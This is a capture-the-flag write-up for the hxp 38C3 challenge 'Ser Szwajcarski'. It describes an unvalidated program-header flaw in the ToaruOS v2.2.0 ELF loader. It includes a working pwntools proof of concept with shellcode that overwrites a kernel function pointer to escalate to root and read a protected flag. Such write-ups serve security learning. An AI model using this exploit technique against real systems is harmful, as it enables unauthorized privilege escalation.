

[Ser Szwajcarski 🧀](https://2024.ctf.link/internal/challenge/9482d38e-3018-4e26-8ef7-29ebcd3df1b1/) was a baby pwn challenge from [hxp 38C3 CTF](https://2024.ctf.link/).

While I "took part" in the CTF with my good friend [Josh](https://joshsteffen.com/) under the team name "frfrmode", I wasn't able to do much as I was travelling at the time and had never seen this challenge. Josh, on the other hand, claimed third solve for this challenge while it was live. Shortly after the CTF ended, he suggested I try it myself...
> [10:58 PM] Josh: also although it's not particularly hard as far as these things go, Ser Szwajcarski 🧀 was pretty cool and i recommend giving it a go if it sounds interesting

...and so I did.


## The Challenge

The [challenge](https://2024.ctf.link/assets/files/Ser%20Szwajcarski%20%F0%9F%A7%80-b0bf4584e69e3c20.tar.xz) has an almost vanilla x86_64 image of [ToarouOS](https://github.com/klange/toaruos) [v2.2.0](https://github.com/klange/toaruos/releases/tag/v2.2.0) -- a cool hobby OS developed from scratch by [K Lange](https://github.com/klange) -- running in a QEMU VM. The changes to the image can be found in `build.sh`:
```bash {linenostart=16}
tar -xf ramdisk.igz etc/master.passwd
sed -i "s/root:toor/root:$(tr -dc 'A-Za-z0-9' < /dev/urandom | head -c 22)/g" etc/master.passwd
sed -i "s/local:local/local:$(tr -dc 'A-Za-z0-9' < /dev/urandom | head -c 22)/g" etc/master.passwd
sed -i "s/guest:guest/guest:$(tr -dc 'A-Za-z0-9' < /dev/urandom | head -c 22)/g" etc/master.passwd
zcat ramdisk.igz > ramdisk
tar --delete -f ramdisk etc/master.passwd
tar -rf ramdisk etc/master.passwd flag.txt --mode=400 --owner=0 --group=0
```

In words, the passwords for the `root`, `local` and `guest` users are replaced with random values and `flag.txt` is added to the root directory (`/`) with permissions such that only the `root` user can read it. 

The goal is to use a shell that is exposed by the challenge to leak the contents of `/flag.txt`. The catch is that the shell runs as the `local` user.


## Vague Possibilities

ToarouOS might feel familiar to someone that uses Linux. Maybe some of this is in part due to it supporting POSIX somewhat (at least enough to port programs per its [README](https://github.com/klange/toaruos/tree/v2.2.0?tab=readme-ov-file#is-toaruos-posix-compliant)). For example, it has [file system permissions](https://en.wikipedia.org/wiki/File-system_permissions#POSIX_permissions) like Linux does and even has syscalls such as `open`, `read` and `write` that share the same arguments and flags. It also uses the same executable format ([ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)).

Down in user-space, it even has programs like ~~vim~~ `bim`, `cat` and `sudo`. Now, while the `local` user is in ["sudoers"](https://github.com/klange/toaruos/blob/v2.2.0/base/etc/sudoers), the flag can't be leaked by simply running `sudo cat /flag.txt`, as the `local` user's password was randomized. Though, the existence of setuid binaries such as `sudo` is promising as it opens the opportunity for privilege escalation solely through user-space, if such binaries can be compromised.

Alternatively, the flag can be leaked by trying to find vulnerabilities within kernel-space components and code that can be triggered through user-space (eg. file systems, networking, syscalls, etc.).

## The Exploit

The latter was what I went with as it felt cooler and more interesting. After skimming through [kernel-space code](https://github.com/klange/toaruos/tree/v2.2.0/kernel) for some time, I landed on the [ELF loader](https://github.com/klange/toaruos/blob/v2.2.0/kernel/misc/elf64.c), where I discovered a vulnerability.

**Note:** To understand this vulnerability, it suffices to know that one of the things an ELF loader does is load applicable segments/sections (eg. code, data, etc.) from the executable file into memory based on the ELF headers.

### Arbitrary Write

In [kernel/misc/elf64.c#L322-L335](https://github.com/klange/toaruos/blob/4a31a09ba27904b42ee35e8fb1a3c7f87669a2ef/kernel/misc/elf64.c#L322-L336), I spotted the following:
```c {linenostart=322, hl_lines=[2, 3, 11]}
for (int i = 0; i < header.e_phnum; ++i) {
    Elf64_Phdr phdr;
    read_fs(file, header.e_phoff + header.e_phentsize * i, sizeof(Elf64_Phdr), (uint8_t*)&phdr);
    if (phdr.p_type == PT_LOAD) {
        for (uintptr_t i = phdr.p_vaddr; i < phdr.p_vaddr + phdr.p_memsz; i += 0x1000) {
            union PML * page = mmu_get_page(i, MMU_GET_MAKE);
            mmu_frame_allocate(page, MMU_FLAG_WRITABLE);
        }


        read_fs(file, phdr.p_offset, phdr.p_filesz, (void*)phdr.p_vaddr);
        for (size_t i = phdr.p_filesz; i < phdr.p_memsz; ++i) {
            *(char*)(phdr.p_vaddr + i) = 0;
        }
        // ...snipped...
    }
}
```

Here, `file` is the executable file that is being executed, and [`read_fs` is a function](https://github.com/klange/toaruos/blob/v2.2.0/kernel/vfs/vfs.c#L168-L184) that reads from the provided file into memory. The arguments to `read_fs` in order are the file, file offset, read size and destination buffer.

Based on this, we can see that the above snippet of code is unsafe, as:
1. The program header (`phdr`) is read straight from the executable file in L323-L324 without any validation being done.
2. `read_fs` in L332 is blindly using values from the `phdr` as the read length, size and destination buffer.

Since this code runs in kernel mode, we can craft an executable file that copies any data from itself to any writable memory region -- basically an arbitrary write -- as long as we have a program header with the right values. What are the right values?
- `p_type` needs to be set to `PT_LOAD` so it does the copy.
- `p_offset` needs to be set to the file offset of the data we want to copy from the file.
- `p_filesz` needs to be set to the size of the data we want to copy.
- `p_vaddr` needs to point to the destination we want to write to.
- `p_memsz` needs to be set to 0 to prevent side-effects such as the loop in L326-329 or L333-335 from running.

### Kernel Code Execution

Since there is no [Kernel Address Space Layout Randomization (KASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization), the arbitrary write can easily be used to hijack kernel code execution. One such way to hijack kernel code execution is by overwriting some function pointer that kernel-space uses and then making the kernel call it. For this purpose, I found the [`printf_output` function pointer](https://github.com/klange/toaruos/blob/v2.2.0/kernel/misc/kprintf.c#L26) used by the kernel [`printf` function](https://github.com/klange/toaruos/blob/v2.2.0/kernel/misc/kprintf.c#L359-L370):
```c {linenostart=359, hl_lines=[2, 9]}
static int cb_printf(void * user, char c) {
	printf_output(1,(uint8_t*)&c);
	return 0;
}

int printf(const char * fmt, ...) {
	va_list args;
	va_start(args, fmt);
	int out = xvasprintf(cb_printf, NULL, fmt, args);
	va_end(args);
	return out;
}
```

Which, in turn, is used in the [`sys_sysfunc` syscall](https://github.com/klange/toaruos/blob/v2.2.0/kernel/sys/syscall.c#L75-L83) (that's callable from user-space) when `fn` is `TOARU_SYS_FUNC_SYNC`:
```c {linenostart=75, hl_lines=[4, 8]}
long sys_sysfunc(long fn, char ** args) {
	/* FIXME: Most of these should be top-level, many are hacks/broken in Misaka */
	switch (fn) {
		case TOARU_SYS_FUNC_SYNC:
			/* FIXME: There is no sync ability in the VFS at the moment.
			 * XXX: Should this just be an ioctl on individual devices?
			 *      Or possibly even an ioctl we can send to arbitrary files? */
			printf("sync: not implemented\n");
			return -EINVAL;
            // ...snipped...
    }
}
```

So, if we construct an executable such that the ELF Loader overwrites the `printf_output` to somewhere in our own executable at load time and then call the `SYS_SYSFUNC` syscall at run-time, we can run our code in kernel mode.

### Privilege Escalation

While there are many ways to go now that we have kernel code execution, I chose to elevate the privileges of our executable process by changing the user it's running as to `root`. This allows our user-space process to read the flag when it previously couldn't due to running as the `local` user. 

For an example of how to do so, we need look no further than the [ELF loader code itself](https://github.com/klange/toaruos/blob/v2.2.0/kernel/misc/elf64.c#L277-L280), as it needs to change users for setuid binaries:
```c {linenostart=277, hl_lines=3}
if ((file->mask & S_ISUID) && !(this_core->current_process->flags & (PROC_FLAG_TRACE_SYSCALLS | PROC_FLAG_TRACE_SIGNALS))) {
    /* setuid */
    this_core->current_process->user = file->uid;
}
```

### Proof of Concept
**Note:** The full script containing all the constants and helper functions to generate the ELF can be found [here](solve.py). I used the excellent [pwntools](https://github.com/Gallopsled/pwntools) library to create the ELF.

For the user-space payload, we need to call the `SYS_SYSFUNC` syscall with `TOARU_SYS_FUNC_SYNC` first so that the kernel runs `printf`, and by extension, our kernel payload. Then we can read the flag file like we would for a normal file read:
```py
userspace_payload = asm(f"""
    {syscall(SYS_SYSFUNC, TOARU_SYS_FUNC_SYNC)}
    {shellcraft.pushstr("/flag.txt")}
    {syscall(SYS_OPEN, "rsp", constants.O_RDONLY, 0)}
    mov r12, rax
    {syscall(SYS_READ, "r12", "rsp", 256)}
    mov r12, rax
    {syscall(SYS_WRITE, constants.STDOUT_FILENO, "rsp", "r12")}
    {syscall(SYS_EXIT, 0)}
""")
```

For the kernel payload which runs when `printf_output` is called, we simply need to patch `this_core->current_process->user` to `root`'s user ID (0).
Since `this_core` is [accessible via `gsbase`](https://github.com/klange/toaruos/blob/v2.2.0/base/usr/include/kernel/process.h#L232) and `current_process` is the [first element in the struct](https://github.com/klange/toaruos/blob/v2.2.0/base/usr/include/kernel/process.h#L172-L186), there's thankfully not much to do here:
```py
# 28 is the `user` field offset within `current_process`
kernel_payload = asm("""
    mov rdi, gs:[0x0]
    mov QWORD PTR [rdi + 28], 0
    ret
""")
```

To generate an ELF containing these payloads, we can pack them together and use pwntools' nifty `make_elf` function:
```py
elf_path = make_elf(userspace_payload + kernel_payload, extract=False)
```

Thankfully, the ELF that pwntools generates runs without hitches on ToaruOS. Otherwise, we might have had to craft the ELF by hand, which doesn't sound fun.

To make the ELF loader overwrite `printf_output` to point to our `kernel_payload`, we need to forge a program header in the ELF. Thankfully, this isn't too much work as we can patch the `PT_GNU_STACK` program header in the generated ELF, because ToaruOS doesn't understand nor need it to run our executable:
```py
prog = ELF(elf_path)
seg_idx = [s.header.p_type for s in prog.segments].index("PT_GNU_STACK")
phdr_ofs = prog._segment_offset(seg_idx)
phdr = elf.Elf64_Phdr()
phdr.p_type = elf.constants.PT_LOAD
# file offset to this phdr's `p_addr`
phdr.p_offset = phdr_ofs + elf.Elf64_Phdr.p_paddr.offset
# can be obtained with `sudo cat /proc/kallsyms` on a vanilla local build where
# the local user password isn't lost? or maybe I attached a debugger on the
# vanilla local build... forgot what I did in particular tbh...
printf_output = 0x134070
phdr.p_vaddr = printf_output
# `p_addr` points to kernel_payload in virtual memory
phdr.p_paddr = prog.entry + len(userspace_payload)
# only need to patch a pointer, which is 8 bytes in x86_64
phdr.p_filesz = 8
phdr.p_memsz = 0
prog.write(prog.offset_to_vaddr(phdr_ofs), bytes(phdr))
prog.save("solver")
```

Finally, we can upload the resulting `solver` binary somewhere and connect to the provided shell to capture the flag:




## The End

ToaruOS was a really cool OS, and I thoroughly enjoyed hacking through it! Despite this being a baby challenge, I learned a lot about OS development and x86_64 in doing it. Though none of that would be apparent from this write-up, as most of what I learned ended up being unnecessary for the exploit I found 🙃

Funnily enough, I later learned that Josh had independently discovered the same vulnerability earlier, though he didn't exploit it. He also found another cool one that involves a physical use-after-free which he did [exploit and write about](https://joshsteffen.com/posts/hxp-38c3-ctf-ser-szwajcarski/)!